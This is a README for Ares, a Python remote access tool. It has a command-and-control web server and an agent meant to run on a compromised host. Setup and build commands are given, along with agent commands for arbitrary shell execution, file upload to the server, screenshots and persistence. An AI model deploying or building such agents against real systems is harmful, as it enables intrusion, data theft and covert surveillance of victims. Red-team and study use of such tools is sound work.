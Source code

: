 # Ares

Ares is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Ares is made of two main programs:

- A Command aNd Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python3. The agent can be compiled to native executables using **pyinstaller**.

## Server

Install the Python requirements for the server:

```
cd server
pip3 install -r requirements.txt
```

Initialize the database:

```
python3 ares.py initdb
```

Run with the builtin (debug) server:

```
python3 ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Or run using gunicorn:

```
# HTTP server
gunicorn

# HTTPS server using self-signed certificate (if no valid certificate available)
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 1365
gunicorn  ares:app -b 0.0.0.0:8080 --threads 20 --certfile cert.pem --keyfile key.pem
```

The server should now be accessible on http(s)://localhost:8080

## Agent

Install the Python requirements for the agent:

```
cd agent
pip3 install -r requirements.txt
```

Run the Python agent (update config.py to suit your needs):

```
cd agent
python agent.py
```

### Building an agent

Windows agents are build on Windows and Linux agents are built on Linux.

Build a new agent to a standalone binary:

```
# Windows
python builder.py --server http://localhost:8080 -o agent.exe

# Linux
python3 builder.py --server http://localhost:8080 -o agent
``` 

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```
